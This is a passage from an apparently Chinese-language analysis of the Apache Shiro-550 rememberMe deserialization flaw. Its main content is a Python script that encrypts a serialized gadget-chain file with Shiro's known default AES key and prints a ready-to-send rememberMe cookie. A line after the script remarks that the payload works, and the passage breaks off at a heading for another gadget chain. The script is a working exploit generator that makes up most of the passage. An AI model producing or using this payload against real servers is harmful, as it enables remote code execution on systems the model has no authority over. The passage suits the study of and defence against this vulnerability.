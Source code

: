 
```python
import sys
import uuid
import base64
from Crypto.Cipher import AES

def encode_rememberme():
    f = open('shiro_CC.txt','rb')
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(f.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext


if __name__ == '__main__':
    payload = encode_rememberme()    
    print("rememberMe={0}".format(payload.decode()))
```

是能够打的通的：

<img src="JAVA%E5%AE%89%E5%85%A8shiro-550%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/1711109384042.png" alt="1711109384042" style="zoom: 50%;" />

#### 3.3 CB链
